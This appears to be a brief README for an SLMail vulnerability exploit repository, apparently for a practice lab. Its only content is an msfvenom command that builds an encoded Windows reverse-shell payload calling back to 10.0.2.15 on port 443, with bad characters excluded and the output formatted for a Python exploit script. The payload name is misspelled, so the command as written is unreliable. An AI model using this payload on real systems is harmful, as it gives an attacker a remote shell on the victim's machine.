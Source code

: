 # slmail-vulberability

Generate payload for slmail vulnerability:
msfvenom -p windows/shell-reverse_tcp LHOST=10.0.2.15 LPORT=443 -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -f py
